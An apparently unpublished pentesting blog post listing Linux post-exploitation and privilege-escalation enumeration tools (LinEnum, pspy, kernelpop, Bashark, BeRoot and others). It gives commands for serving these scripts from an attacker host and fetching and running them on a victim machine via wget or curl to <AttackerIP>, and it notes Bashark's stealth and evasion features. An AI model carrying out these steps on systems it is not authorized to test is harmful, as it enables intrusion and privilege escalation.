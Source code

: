 ```yaml
---
layout: post
published: false
title: Linux Post Exploitation 10.3
---
```

## Linux Automated Scripts


## Introduction 

In this blog post we will discuss some tools for performing our post exploitation processs, and save our time and efforts.


## Post Enumeration Scripts 


**LinEnum.sh**

``
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
``

This script is used to perform linux post enumeration/local linux enumeration and privilege escalation checks.

**How to use?** 

You need download it in target machine using wget or curl.

You can also use python,php,ruby or nc to start http static web server.

Python
``
python -m SimpleHTTPServer 8080
``
``
python3 -m http.server 80
``
PHP
``
php -S localhost:80
``
Ruby
``
ruby -run -ehttpd . -p80
``
Netcat
``
while true ; do nc -l 80 < LinEnum.sh
``

**Downloading using curl and wget**
``
curl -x -o LinEnum.sh http://<AttackerIP>/LinEnum.sh
``
wget
``
wget http://<AttackerIP>/LinEnum.sh
``

``
chmod +x LinEnum.sh
``
``
./LinEnum.sh
``
And it will automate the post enumeration process and give the valuable result


**Pspy**

This tool monitor's linux processes without root permissions  

Download its binary in your attacker system, start local server as before, and download it in victim's machine.

After download execute it and it will perform monitoring for you.


**Linux exploit suggestor**

https://github.com/InteliSecureLabs/Linux_Exploit_Suggester

Linux_Exploit_Suggester suggest's exploits based on operating system release number, which helps attacker to exploit the target.


**Searchsploit**
We have discussed this tool in previous phases, it can also help us to check particular exploit for target.


**Kernelpop**

https://github.com/spencerdodd/kernelpop

kernel privilege escalation enumeration and exploitation framework.


download it from link above
``
$ cd kernelpop
$ python3 kernelpop.py
``
It will automate kernel vulnerability enumeration and exploitation

**Bashark**

Bashark aids pentesters and security researchers during the post-exploitation phase of security audits.
Usage

To launch Bashark on compromised host, simply source the bashark.sh script from terminal: $ source bashark.sh Then type help to see Bashark's help menu

Features

* Single Bash script
* Lightweight and fast
* Multi-platform: Unix, OSX, Solaris etc.
* No external dependencies
* Immune to heuristic and behavioural analysis
* Built-in aliases of often used shell commands
* Extends system shell with post-exploitation oriented functionalities
* Stealthy, with custom cleanup routine activated on exit
* Easily extensible (add new commands by creating Bash functions)
* Full tab completion

``
wget https://raw.githubusercontent.com/TheSecondSun/Bashark/master/bashark.sh
``

and simply run it
``
chmod +x bashark.sh
``
``
./bashark.sh
``

**Linuxprivchecker**

Enumerates system configurations and check for privilege escalation

wget //www.securitysift.com/download/linuxprivchecker.py

``
python3 linuxprivchecker.py
``
**linux-exploit-suggester-2**

Linux_Exploit_Suggester-2 is the extended version of previous Linux_Exploit_Suggester used to find linux privelege escalation vulnerabilities in system. 

``
git clone //github.com/jondonas/linux-exploit-suggester-2.git
``
``
cd linux-exploit-suggester-2
``
``
./linux-exploit-suggester-2.pl
``

**BeRoot**
Privilege Escalation Project - Windows / Linux / Mac 
BeRoot Project is a post exploitation tool to check common misconfigurations to find a way to escalate our privilege.
It has been added to the pupy project as a post exploitation module (so it will be executed in memory without touching the disk).

For now we are using it for linux

Features of BeRoot:

* Check Files Permissions

* SUID bin

* NFS root Squashing

* Docker

* Sudo rules

* Kernel Exploit

``
wget https://raw.githubusercontent.com/AlessandroZ/BeRoot/master/Linux/beroot.py
``
``
chmod +x beroot.py
``
``
./beroot.py
``



## Conclusion 

_**We have discussed some automated scripts which can help us during post exploitation. I suggest to check them in your system to know about their work.**_
